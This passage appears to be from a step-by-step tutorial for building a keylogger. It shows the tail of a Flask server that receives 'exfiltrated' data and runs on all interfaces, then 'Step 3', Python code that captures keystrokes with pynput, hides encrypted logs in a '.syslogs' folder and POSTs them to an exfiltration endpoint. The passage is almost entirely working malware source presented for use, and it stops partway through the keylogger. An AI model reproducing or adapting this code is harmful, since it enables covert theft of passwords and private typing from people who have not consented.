 ```python
    else:
        # GET method: friendly message for browser/testing
        return "Send a POST request with encrypted payload to /exfil", 200

if __name__ == "__main__":
    # Run on all interfaces so you can connect remotely
    app.run(host="0.0.0.0", port=5000)
```

Run:

```bash
python exfil_server.py
```

---

### 🎹 Step 3: Launch the Keylogger

```python
# logger.py
import os
import datetime
import threading
import time
from pynput import keyboard
from cryptography.fernet import Fernet
import requests

# Constants
LOG_DIR = ".syslogs"
KEY_FILE = "encryption.key"  # Make sure this matches your file name exactly
EXFIL_URL = "http://localhost:5000/exfil"

# Load encryption key
with open(KEY_FILE, "rb") as key_file:
    key = key_file.read()

fernet = Fernet(key)
log = []

def ensure_log_dir():
    if not os.path.exists(LOG_DIR):
        os.makedirs(LOG_DIR)

def encrypt_and_store(log_data):
    ensure_log_dir()
    if log_data:
        print("[+] Flushing and encrypting logs...")  # Moved here
        encrypted_data = fernet.encrypt("".join(log_data).encode())
        timestamp = datetime.datetime.now().strftime("%Y%m%d_%H%M%S")
        filename = os.path.join(LOG_DIR, f"log_{timestamp}.bin")
        with open(filename, "wb") as f:
            f.write(encrypted_data)
        simulate_exfil(filename)

def simulate_exfil(filepath):
    try:
        with open(filepath, "rb") as f:
            data = f.read()
            response = requests.post(EXFIL_URL, data=data, timeout=5)
            if response.status_code == 200:
                print(f"[+] Exfiltrated {filepath} successfully.")
            else:
                print(f"[-] Exfiltration failed with status {response.status_code}")
```